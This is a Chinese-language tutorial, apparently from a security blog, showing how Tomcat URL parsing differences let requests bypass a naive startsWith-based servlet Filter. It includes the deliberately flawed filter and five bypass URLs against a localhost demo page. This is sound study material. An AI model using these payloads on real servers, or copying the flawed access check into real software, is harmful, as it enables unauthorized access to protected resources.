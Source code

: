 Tomcat URL 解析差异性攻击利用
-----------------------------

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Secret</title>
    </head>
    <body>
    username: mi1k7ea<br>
    password: 123456<br>
    address: china<br>
    phone: 13666666666<br>
    </body>
    </html>

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

    package filter;

    import javax.servlet.*;
    import javax.servlet.http.*;
    import java.io.IOException;

    public class testFilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

            String url = httpServletRequest.getRequestURI();

            if (url.startsWith("/urltest/info")) {
                httpServletResponse.getWriter().write("No Permission.");
                return;
            }

            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <filter>
            <filter-name>testFilter</filter-name>
            <filter-class>filter.testFilter</filter-class>
        </filter>
        <filter-mapping>
            <filter-name>testFilter</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
    </web-app>

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![](resource/TomcatURL解析差异性攻击利用/media/rId21.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

    http://localhost:8080/urltest/./info/secret.jsp
    http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
    http://localhost:8080//urltest/info/secret.jsp

![](resource/TomcatURL解析差异性攻击利用/media/rId22.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证
